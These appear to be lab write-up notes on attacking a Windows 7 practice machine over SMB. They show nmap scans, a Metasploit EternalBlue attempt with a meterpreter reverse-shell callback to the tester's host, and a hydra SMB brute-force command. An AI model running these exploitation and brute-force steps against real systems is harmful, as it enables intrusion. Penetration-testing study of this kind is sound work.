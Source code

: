 ```
C:\home\kali> nmap -sC -sV -Pn 10.10.10.40
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-16 01:54 EST
Nmap scan report for 10.10.10.40
Host is up (0.21s latency).
Not shown: 798 closed tcp ports (conn-refused), 194 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows


```

from https://nmap.org/book/port-scanning.html


Port 445 (Microsoft-DS)—For SMB communication over IP with MS Windows services (such as file/printer sharing).

Port 139 (NetBIOS-SSN)—NetBIOS Session Service for communication with MS Windows services (such as file/printer sharing). This has been supported on Windows machines longer than 445 has.

https://www.hackingarticles.in/smb-penetration-testing-port-445/

```
C:\home\kali> nmap -p 445 -A -Pn 10.10.10.40
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-16 02:09 EST
Nmap scan report for 10.10.10.40
Host is up.

PORT    STATE    SERVICE      VERSION
445/tcp filtered microsoft-ds

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.54 seconds
```
trying eternal blue

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.10.40
rhost => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.10.6.156:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[-] 10.10.10.40:445       - Rex::ConnectionTimeout: The connection with (10.10.10.40:445) timed out.
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[-] 10.10.10.40:445 - The target is not vulnerable.
[*] Exploit completed, but no session was created.

```

did not work

we can try and brute force with hydra

```
hydra -L user.txt -P pass.txt 192.168.1.101 smb
```

once we have login credentials we can then connect to the machine using meterpreter shell

target was vulnerable for a brief while t ms17

```

[*] Started reverse TCP handler on 10.10.6.156:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[-] 10.10.10.40:445 - Rex::ConnectionTimeout: The connection with (10.10.10.40:445) timed out.
[*] Exploit completed, but no session was created.

```

but then after tha it just shows that target isnt vulnerable
